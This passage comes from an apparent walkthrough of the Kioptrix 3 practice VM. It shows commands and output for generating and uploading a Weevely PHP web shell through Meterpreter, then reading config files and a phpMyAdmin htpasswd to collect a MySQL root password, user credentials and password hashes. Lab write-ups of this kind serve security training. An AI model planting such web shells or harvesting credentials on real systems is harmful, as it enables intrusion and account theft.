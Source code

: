 uname -a
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
{% endcodeblock %}

{% codeblock %}
root@kali32:~# weevely generate 1234
[generate.php] Backdoor file 'weevely.php' created with password '1234'

meterpreter > upload /root/weevely.php /home/www/kioptrix3.com/cache/
[*] uploading  : /root/weevely.php -> /home/www/kioptrix3.com/cache/
[*] uploaded   : /root/weevely.php -> /home/www/kioptrix3.com/cache//weevely.php

root@kali32:~# weevely http://kioptrix3.com/cache/weevely.php 1234

www-data@:/home/www/kioptrix3.com $ :audit.userfiles 
+--------------------------------+--------+----------+--+--+
| /home/loneferret/.bash_history | exists | readable |  |  |
| /home/loneferret/.ssh          | exists |          |  |  |
| /home/dreg/.profile            | exists | readable |  |  |
| /home/dreg/.bashrc             | exists | readable |  |  |
| /home/loneferret/.profile      | exists | readable |  |  |
| /home/dreg/.bash_logout        | exists | readable |  |  |
| /home/loneferret/.bash_logout  | exists | readable |  |  |
| /home/loneferret/.bashrc       | exists | readable |  |  |
+--------------------------------+--------+----------+--+--+

www-data@:/etc/apache2 $ cat /etc/apache2/conf.d/phpmyadmin.conf | grep htpasswd
AuthUserFile /etc/phpmyadmin/htpasswd.setup
                AuthUserFile /etc/phpmyadmin/htpasswd.setup
www-data@:/etc/apache2 $ cat /etc/phpmyadmin/htpasswd.setup
admin:*

www-data@:/home/www/kioptrix3.com $ cat gallery/gconfig.php
        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
{% endcodeblock %}

Now we can log to phpmyadmin (found for example by Nikto) with root / fuckeyou credentials:

We found the several interesting things:
{% codeblock %}
Browse gallarific_users: admin / n0t7t1k4
{% endcodeblock %}

In dev_accounts we have:
{% codeblock %}
dreg 0d3eccfb887aabd50f243b3f155c0f85 
loneferret 5badcaf789d3d1d09794d8f021f40f0e
{% endcodeblock %}

